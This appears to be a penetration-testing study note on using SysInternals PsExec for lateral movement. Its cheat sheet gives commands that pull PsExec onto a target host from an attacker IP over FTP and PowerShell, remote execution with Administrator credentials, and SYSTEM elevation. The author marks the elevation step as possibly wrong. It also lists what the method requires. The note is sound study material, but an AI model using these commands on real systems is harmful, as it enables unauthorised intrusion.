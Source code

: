 ## PsExec (SysInternals)

Note:  Not to be confused with the Hacking tool psexec

Tool from SysInternals:  https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

Good breakdown of this tool:  https://www.contextis.com/en/blog/lateral-movement-a-deep-look-into-psexec

Can execute commands on a remote system using the password or hash of a user.

### Cheat Sheet

Quick download from FTP server:

```powershell
echo open 192.168.119.216 21> ftp.txt
echo USER rock>> ftp.txt
echo roll>> ftp.txt
echo cd winprivesc >> ftp.txt
echo passive >> ftp.txt
echo bin >> ftp.txt
echo GET PsExec.exe >> ftp.txt
echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
del ftp.txt
```

or HTTP

```powershell
mkdir c:\temp
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.119.216:80/PsExec.exe','C:\temp\PsExec.exe')"
```

### Commands

- Execute a command using password:


```powershell
psexec \\192.168.122.66 -accepteula -u Administrator -p 123456 ipconfig 
```

- Elevate privileges to SYSTEM user (<----I don't know if this actually is correct, it doesn't seem right)

```powershell
psexec.exe -i -s cmd.exe
```

### More Info:

#### Minimum requirements to use the PsExec method

These are the bare minimum requirements:

1. Port 139 or 445 open on the remote machine, i.e., SMB.
2. Password or NTLM hash of the password (*)
3. Write permissions to a network shared folder (**). It doesn´t matter which one (***).
4. Permissions to create services on the remote machine: SC_MANAGER_CREATE_SERVICE (Access mask: 0x0002). 
5. Ability to start the service created: SERVICE_QUERY_STATUS (Access mask: 0x0004) + SERVICE_START (Access mask: 0x0010).

Notes:

- *: Remember that NTLM ≠ NTLMv1/v2, so captured hashes over the  network are not valid, unless you crack them or use an NTLM relay  technique, but that´s another story.
- **: Bear in mind that NTFS permissions ≠ Share permissions. It´s not enough to have permissions to write locally.
- ***: Note that if you are using Sysinternal´s PsExec, it will try  to copy PSEXESVC.exe to ADMIN$ (alias for C:\Windows), so you need  access to it, not to just any folder.

Source of this info and more:  https://www.contextis.com/en/blog/lateral-movement-a-deep-look-into-psexec